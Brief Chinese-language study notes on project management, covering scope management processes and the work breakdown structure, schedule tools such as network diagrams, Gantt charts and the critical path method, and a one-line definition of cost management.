项目范围管理
对项目包括什么与不包括什么的界定和控制的过程。
- 制定范围管理计划是指确定项目的范围和需求如何管理。
- 收集需求是指定义并记录项目最终产品的特点和功能。
- 定义范围是指评审范围管理计划、项目章程、需求文档和组织过程资产来创建一份范围说明书
- 创建工作分解结构是指将主要的项目可交付成果分解成更细小和更易于管理的部分。
- 验证范围是指项目可交付成果的正式接受。
- 控制范围是指对整个项目生命周期内的范围变化进行控制。
工作分解结构(WBS)是对项目所涉及工作面向交付成果的分组，它定义了项目的全部范围。
WBS字典是一个描述WBS每项条目详细信息的文件。
项目时间管理
项目经理们通常认为按时交付项目的需求是最大的挑战之一，也是引起冲突的主要原因。
计划进度管理
活动清单是包含在项目进度中的活动列表。
项目里程碑是项目中一个通常没有工期的重要事件。
网络图是表示活动排序的首选技术。
甘特图提供了一套显示项目进度信息的标准格式。
##关键路径法
关键路径分析是一种网络图技术。
项目成本管理
包括用来确保在批准的预算范围内完成项目的必要过程。